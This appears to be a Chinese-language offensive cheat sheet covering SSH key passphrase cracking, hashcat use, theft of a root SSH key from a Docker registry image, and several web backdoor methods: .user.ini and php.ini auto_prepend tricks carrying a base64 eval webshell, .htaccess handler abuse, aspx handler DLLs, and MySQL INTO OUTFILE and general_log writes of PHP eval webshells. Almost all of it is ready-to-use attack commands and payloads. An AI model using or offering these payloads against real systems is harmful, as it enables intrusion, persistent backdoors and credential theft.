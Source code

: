 ssh密钥解密:
ssh2john.py id_rsa > ssh.txt
john ssh.txt --wordlist=../../wordlists/rockyou.txt

hashcat:
linux hash david:$1$e7NfNpNi$A6nCwOTqrNR2oDuIKirRZ/ hashcat -m 500 -a 0 hash.txt ./wordlists/rockyou.txt

docker login https://xx.xx.xx
安装证书ca.crt

curl --user admin:admin https://xx.xx.xx/_catalog
{“repositories”:[“bolt-image”]}
docker image pull docker.registry.htb/bolt-image
docker image ls
docker run -it docker.registry.htb/bolt-image /bin/bash
docker ps -alq
docker cp f7f8fc1f7f17:/root/.ssh/id_rsa .

web后门:
1.fastcgi运行php 配置.user.ini 插入auto_prepend_file=evil.txt 访问当前目录下所有php文件时自动包含evil.txt文件
2..htaccess
站长经常用.htaccess做伪静态，我们也可以拿来做后门。
自定义.htaccess上传，下面是内容
<FileMatch "aaa">
SetHandler application/x-httpd-php
</FileMatch>
同目录下，上传一个名称包含aaa的文件，就可以把此文件当成php解析。
3.php.ini
修改php.ini，添加如下内容：
allow_url_include=On
auto_prepend_file="data:;base64,PD9waHAgQGV2YWwoJF9SRVFVRVNUW2NtZF0pOz8+"
重启php后，访问任意php页面都可以自动包含上述webshell，即解码后的
<?php @eval($_REQUEST[cmd]);?>
4.php环境变量include_path目录中创建evil.txt 在网站根目录上传php文件<?php include('evil.txt');?>
5.aspx
C:\Windows\Microsoft.NET\Framework\v2.0.50727\aspnet_compiler.exe -v / -p c:\Users\Jumbo\Desktop\aspxceshi\webshell\ c:\Users\Jumbo\Desktop\aspxceshi\webshellbin\
在webshellbin目录生成dll文件
复制compiled文件中assembly值和type值
修改web.config
<system.web>
    <httpHandlers>
        <add verb="*" path="*" type="assembly值, type值" validate="True"/>
    </httpHandlers>
</system.web>
将生成的dll放入网站bin目录
任意地址均为webshell

mysql写入webshell
1.union select
?id=1 union select 1,"<?php @eval($_POST['g']);?>",3 into outfile 'E:/study/WWW/evil.php'
?id=1 union select 1,0x223c3f70687020406576616c28245f504f53545b2767275d293b3f3e22,3 into outfile "E:/study/WWW/evil.php"
2.利用分隔符写入
?id=1 LIMIT 0,1 INTO OUTFILE 'E:/study/WWW/evil.php' lines terminated by 0x20273c3f70687020406576616c28245f504f53545b2767275d293b3f3e27 --
?id=1 INTO OUTFILE '物理路径' lines terminated by  （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' fields terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' columns terminated by （一句话hex编码）#
?id=1 INTO OUTFILE '物理路径' lines starting by    （一句话hex编码）#
3.利用log写入
show variables like '%general%';             #查看配置
set global general_log = on;                 #开启general log模式
set global general_log_file = 'E:/study/WWW/evil.php'; #设置日志目录为shell地址
select '<?php eval($_GET[g]);?>'             #写入shell